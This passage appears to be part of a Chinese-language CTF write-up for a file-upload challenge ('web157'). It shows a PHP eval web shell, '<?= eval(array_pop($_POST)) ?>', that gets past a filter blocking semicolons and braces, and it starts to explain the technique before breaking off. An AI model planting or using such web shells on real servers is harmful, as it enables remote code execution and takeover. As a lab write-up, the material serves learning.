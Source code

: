 成功上传



#### web157

![image-20250310225601563](assets/image-20250310225601563.png)

试了一下发现是`;和{}`都被BAN了，可以使用`array_pop()`函数

```
<?= eval(array_pop($_POST)) ?>
```

![image-20250310230738947](assets/image-20250310230738947.png)

上传成功

**为什么可以用`<?= eval(array_pop($_POST)) ?>`替代`<?= eval($_POST{1});?>`？**

`$_POST{1}` 是从 `$_POST` 数组中获取键为 `1` 的值。

- 假设 `$_POST` 数据为：

	```
	Array
	(
	    [1] => "echo 'Hello';"
	)
	```
